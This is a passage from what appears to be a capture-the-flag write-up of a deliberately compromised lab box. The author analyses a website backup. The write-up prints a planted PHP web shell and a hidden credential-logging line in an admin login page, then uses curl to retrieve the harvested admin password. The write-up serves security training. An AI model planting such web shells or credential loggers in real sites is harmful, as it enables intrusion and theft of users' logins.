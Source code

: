 
![02](/assets/img/Compromis/02.png)

The archive contains a backup for the website. The source code shows the root folder contains an interesting file, .sh.php:

```<?php system($_REQUEST['cmd']); ?>```

This file isn’t on the host anymore, but perhaps was put up there when the box was compromised.

I spent far too long looking for a config file that would contain the password. I found a password for the database in includes/config.inc.php:

```bash
// Database
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
  define('DB_CONNECTION_CHARSET', 'utf8');
  define('DB_PERSISTENT_CONNECTIONS', 'false');
```

The password “changethis” could very well be wrong in this case. It certainly doesn’t work to get into the admin panel.

Eventually some recursive grep found this in shop/admin/login.php:

```bash
if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }
```

That commented line is interesting. Given the theme of this box is likely that it’s already compromised, maybe the other hacker left that behind to collect creds. That log file is still on the server:

```bash
root@kali# curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
User: admin Passwd: theNextGenSt0r3!~
```
